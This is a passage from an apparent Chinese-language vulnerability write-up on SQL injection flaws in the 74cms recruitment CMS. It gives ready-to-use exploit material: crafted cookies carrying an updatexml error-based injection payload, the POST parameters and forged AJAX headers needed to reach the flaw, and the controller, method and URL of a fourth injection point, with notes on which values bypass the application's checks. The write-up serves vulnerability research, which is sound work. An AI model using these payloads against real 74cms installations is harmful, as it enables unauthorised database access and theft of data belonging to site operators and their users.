    members_uc_info[reg_type]=1;members_uc_info[utype]=2;members_uc_info[mobile][0]=match;members_uc_info[mobile][1][0]=aaaaaaa%22) and updatexml(1,concat(0x7e,(select user())),0) -- a;

    headers:
      Content-Type: application/x-www-form-urlencoded
      X-Requested-With: XMLHttpRequest

    这里我要大概讲一下参数的问题
    post: 
    reg_type=2            // 必须为2 为了绕过一个注册判断，为1的话，会直接创建帐户，导致无法利用漏洞
    utype=2         // 判断会员类型的也必须为2 为1会直接创建一条数据，导致无法利用漏洞      
    ucenter=bind           // 必须为bind因为要靠他，获取cookie(members_uc_info)并且合并为$data数组进行利用
      unbind_mobile=1       // 只要有此字段即可，只是单纯为了满足流程判断的

    cookie:
    members_uc_info[reg_type]=1;         // 必须为1 满足流程需要
    members_uc_info[utype]=2;         // 必须为2 满足流程需要
    members_uc_info[mobile][0]=match;    // 框架漏洞利用
    members_uc_info[mobile][1][0]=aaaaaaa%22) and updatexml(1,concat(0x7e,(select user())),0) -- a;  // 这里输入注入语句

    headers:  // 伪造ajax操作
      Content-Type: application/x-www-form-urlencoded
      X-Requested-With: XMLHttpRequest

0x07 74cms独有框架漏洞第四处
----------------------------

    文件：74cms\upload\Application\Home\Controller\MembersController.class.php
    方法：oauth_reg (
    是否需登录：需要
    登录权限：普通用户/企业用户都可
    url: http://74cms.test/index.php?m=&c=Members&a=oauth_reg
    post:
        username = 自己去平台随便注册个账号然后输入那个账号
        password = 自己去平台随便注册个账号然后输入那个密码
    cookie:
        members_bind_info[type][0]=match;
    members_bind_info[type][1][0]=aaaaaaa%22) and updatexml(1,concat(0x7e,(select user())),0) -- a;



看源码



四、参考链接
------------

> https://www.yuque.com/pmiaowu/bfgkkh/nzr6fl
